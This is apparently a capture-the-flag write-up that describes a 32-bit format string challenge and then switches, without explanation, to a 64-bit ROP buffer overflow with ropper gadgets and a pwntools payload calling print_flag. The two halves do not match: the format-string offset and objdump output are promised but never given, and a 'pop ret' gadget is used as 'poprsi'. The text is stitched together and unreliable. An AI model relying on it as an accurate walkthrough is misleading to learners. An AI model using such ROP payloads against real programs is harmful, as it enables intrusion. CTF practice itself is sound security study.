

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- when reading the source code, we can see that the  binary reads 60 bytes from stdin, then prints the buffer and checks if the target_variable's value is different from 0. If true, it'll print the flag.
- the vulnerability is in printf(name),it's written without a format specifier, so it's a Format String vulnerability as the name of the challenge indicated it.
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
## find the address of target_variable
target_variable is a global variable, and since it's initialized , it's in the .data section.
to find it's address, we can use objdump.


we can see that the offset to the saved rip is : 72
## Address of print_flag
inside gdb : 
- p print_flag
the function is at : 0x40121f 
## Gadgets
using ropper, we can find the wanted gadgets : 
- ropper --file task7 --search "pop rdi" #0x0000000000401323
- ropper --file task7 --search "pop ret" #0x0000000000401321
## Payload
```python
from pwn import *
p = process("./task7")                                                                                                  
poprdi = 0x401323                                                                                                       
poprsi = 0x401321                                                                                                       
print_flag = 0x40121f                                                                                                   
payload = b""                                                                                                           
payload += b"A"*72                                                                                                      
payload += p64(poprdi)                                                                                                  
payload += p64(0xdeadbeef)                                                                                              
payload += p64(poprsi)                                                                                                  
payload += p64(0xc0febabe)                                                                                              
payload += p64(0)                                                                                                       
payload += p64(print_flag)                                                                                             
p.sendline(payload)                                                                                                     
p.interactive()
